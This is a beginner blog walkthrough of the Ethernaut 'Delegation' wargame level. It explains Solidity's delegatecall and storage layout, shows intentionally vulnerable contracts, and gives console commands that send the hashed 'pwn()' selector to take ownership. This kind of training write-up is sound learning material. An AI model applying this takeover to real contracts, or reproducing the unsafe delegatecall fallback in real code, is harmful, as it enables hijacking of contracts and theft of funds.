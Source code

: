```yaml
---
title: "Ethernaut - Walkthrough for Noobs - 6 - Delegation"
datePublished: Fri Mar 17 2023 15:37:03 GMT+0000 (Coordinated Universal Time)
cuid: clfcpe3mr000709jldcvt230q
slug: ethernaut-walkthrough-for-noobs-6-delegation
cover: https://cdn.hashnode.com/res/hashnode/image/upload/v1679052171155/903038d4-29d9-4546-96d0-c6a1ad779aad.jpeg
tags: ethereum, smart-contracts, 2articles1week, ethernaut, smart-contract-audit-services

---
```


This challenge is also fairly simple and introduces the concept of `delegatecall`. Per usual, I would give you all the tools to solve this on your own and then provide a solution.

> The goal of this level is for you to claim ownership of the instance you are given.

### Background

Let's see what a `delegate call` is according to solidity docs:

> **delegatecall** is identical to a message call apart from the fact that the code at the target address is executed in the context of the calling contract and `msg.sender` and `msg.value` do not change their values.

in a less jargonish way, a `delegatecall` basically says, that I am a contract and I am delegating you to do anything with my storage.

For Example:

In a `call` function: A calls on B, ==&gt; context and storage of B is used.

In a `delegatecall` function: A delegates call on B, ==&gt; context and storage of A is used.

![I don't own the images](https://cdn.hashnode.com/res/hashnode/image/upload/v1679055080644/4f907f56-8f01-41ca-8a33-be36d0fba06f.jpeg align="center")

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1679055095835/88b37019-191f-4d3f-b224-68e034ddf34f.jpeg align="center")

Note: "While using `delegatecall` , understand that it preserves context and only use it when the storage layout is the same for the contract calling `delegatecall` and the contract getting called"

Here is what storage layout means:

```solidity
contract Example{
    uint a; //slot 0
    uint b; //slot 1
```

If the storage layout is not the same the data will go into a different variable.

### Code of Importance & Problems

Observe that we have two different contracts here. The explanation for both is in the comments.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner; //sets state variable owner

  constructor(address _owner) { //initializes owner
    owner = _owner;
  }

  function pwn() public { 
    owner = msg.sender; //this can make us the owner..keep in mind. 
  }
}
```

```solidity
contract Delegation {

  address public owner;
  Delegate delegate; // a reference to the Delegate contract above

  constructor(address _delegateAddress) { //takes address as input 
    delegate = Delegate(_delegateAddress); //initialises delegate state variable
    owner = msg.sender; //sender is initialised as owner 
  }

  fallback() external { //fallback function (refer 1st challenge)
    (bool result,) = address(delegate).delegatecall(msg.data);//stores the success of delegatecall in result.
    if (result) { //if true creates a 'this' instance.
      this; //keeps going with the contract code. 
    }
  }
}
```

Now, how to tackle the code, let's backtrace our thinking.

1. Now, since `delegatecall` is used, the context (`msg.sender`, `msg.value`) of the "Delegation" contract will be used, to invoke the `pwn()` function in the "delegate" contract.
    
2. Also notice that, the storage slot for `owner` is the same in both contracts.
    
3. **In short, this will behave as if the** `pwn()` **function is in the "Delegation" contract.**
    

Here is briefly the timeline of exploit:

* Trigger the fallback function whilst invoking the `pwn()` function using msg.data.
    
* Triggers the `pwn()` function in the delegate contract.
    
* but the storage of the Delegation contract is used.
    
* Updates `owner == msg.sender` according to the `pwn()` function in the delegation contract.
    

### Solution

* Create a new level instance and open up console.
    
* ```solidity
    var attack = web3.utils.keccak256("pwn()") //saves hashed pwn() in attack.
    //we require the hashed version of pwn() to pass it as msg.data.
    ```
    
* ```solidity
    contract.sendTransaction({data: attack}) //sending a transaction with msg.data as attack which will trigger the pwn() function. 
    //Since, there is no function to accept the transaction, it will trigger the fallback function which will delegate it and....Ah Shit, here we go again. 
    ```
    
* ```solidity
    await contract.owner() //check whether you are the owner. 
    ```
    
* Submit Instance.
    

Delegation✅